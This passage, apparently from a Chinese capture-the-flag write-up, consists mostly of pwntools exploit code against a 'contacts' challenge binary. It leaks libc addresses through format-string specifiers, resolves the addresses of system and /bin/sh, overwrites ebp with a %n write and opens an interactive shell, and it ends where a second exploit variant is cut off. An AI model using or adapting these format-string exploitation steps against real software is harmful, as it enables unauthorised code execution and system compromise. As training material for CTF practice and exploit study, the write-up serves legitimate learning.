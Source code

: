 ```python
    sh.recvuntil('>>> ')
    sh.sendline('4')
    sh.recvuntil('Contacts:')
    sh.recvuntil('Description: ')


## get system addr & binsh_addr
payload = '%31$paaaa'
createcontact('1111', '1111', '111', payload)
printcontact()
libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.success('get system addr: ' + hex(system_addr))
log.success('get binsh addr: ' + hex(binsh_addr))
##gdb.attach(sh)

## get heap addr and ebp addr
payload = flat([
    system_addr,
    'bbbb',
    binsh_addr,
    '%6$p%11$pcccc',
])
createcontact('2222', '2222', '222', payload)
printcontact()
sh.recvuntil('Description: ')
data = sh.recvuntil('cccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)

## modify ebp
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
##print payload
createcontact('3333', '123456789', '300', payload)
printcontact()
sh.recvuntil('Description: ')
sh.recvuntil('Description: ')
##gdb.attach(sh)
print 'get shell'
sh.recvuntil('>>> ')
##get shell
sh.sendline('5')
sh.interactive()
```
system出现0截断的情况下，exp如下:
```python
from pwn import *
context.log_level="debug"
context.arch="x86"

io=process("./contacts")
binary=ELF("contacts")
libc=binary.libc

def createcontact(io, name, phone, descrip_len, description):
```